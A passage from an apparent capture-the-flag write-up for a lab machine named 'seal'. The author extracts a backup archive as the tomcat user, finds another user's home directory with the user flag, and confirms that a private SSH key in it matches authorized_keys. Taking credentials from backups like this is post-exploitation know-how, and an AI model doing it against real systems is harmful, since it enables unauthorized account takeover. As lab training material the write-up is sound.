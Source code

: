     
    
    tomcat@seal:/dev/shm$ gunzip backup-2021-09-04-07\:37\:32.gz 
    tomcat@seal:/dev/shm$ file backup-2021-09-04-07\:37\:32 
    backup-2021-09-04-07:37:32: POSIX tar archive
    

If I try to run `tar xf` on this file, it fails:

    
    
    tomcat@seal:/dev/shm$ tar xf backup-2021-09-04-07\:59\:32 
    tar: Cannot connect to backup-2021-09-04-07: resolve failed
    

That’s actually because `tar` treats the `:` as signifying that the part
before it is a hostname it should be connecting to. I can fix this by renaming
it without a `:`, or giving it the `--force-local` flag.

I could also have done the extraction in one step with tar from the start:

    
    
    tomcat@seal:/dev/shm$ tar zxf backup-2021-09-04-07\:59\:32.gz --force-local
    tomcat@seal:/dev/shm/dashboard$ ls   
    bootstrap  css  images  index.html  scripts  uploads
    

From here I find luis’ homedir in `uploads`:

    
    
    tomcat@seal:/dev/shm/dashboard/uploads$ ls
    luis
    tomcat@seal:/dev/shm/dashboard/uploads$ cd luis/
    tomcat@seal:/dev/shm/dashboard/uploads/luis$ ls
    gitbucket.war  user.txt
    

And I can grab the flag:

    
    
    tomcat@seal:/dev/shm/dashboard/uploads/luis$ cat user.txt
    715c92dd************************
    

### SSH

There’s also an SSH key in `.ssh`, and the public key matches what’s in
`authorized_keys`:

    
    
    tomcat@seal:/dev/shm/dashboard/uploads/luis/.ssh$ ls -l
    total 12
    -rw-r----- 1 tomcat tomcat  563 May  7 06:10 authorized_keys
    -rw------- 1 tomcat tomcat 2590 May  7 06:10 id_rsa
    -rw-r----- 1 tomcat tomcat  563 May  7 06:10 id_rsa.pub
    tomcat@seal:/dev/shm/dashboard/uploads/luis/.ssh$ md5sum authorized_keys id_rsa.pub 
    a03275942de46b5d0de68dfa7ef99e2a  authorized_keys
    a03275942de46b5d0de68dfa7ef99e2a  id_rsa.pub
    
